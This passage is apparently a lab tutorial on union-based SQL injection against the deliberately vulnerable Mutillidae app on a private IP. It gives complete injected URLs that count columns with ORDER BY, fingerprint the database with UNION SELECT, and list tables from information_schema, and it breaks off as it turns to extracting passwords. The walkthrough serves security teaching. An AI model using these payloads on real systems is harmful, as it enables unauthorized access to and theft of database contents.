 
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.


Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below: http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27%order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details


After adding the order by 6 into the existing url , the following error statement will be obtained:

As it is having 5 columns the query worked fine and it provides the correct result


Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5).


As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

![Screenshot 2025-05-26 083355](https://github.com/user-attachments/assets/2160c71e-be20-46f3-a55e-36226b71a6ec)


Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database. http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![Screenshot 2025-05-26 083420](https://github.com/user-attachments/assets/2528a8d1-3156-49ab-9967-170f63e5f915)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

![Screenshot 2025-05-26 083533](https://github.com/user-attachments/assets/5ae197a8-9ef6-4698-bd03-99255e3caaa1)

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’ http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

The url once executed will retrieve table names from the “owasp 10” database.

Extracting sensitive data such as passwords
When the attacker knows table names, he needs to discover what the column names are to extract data.
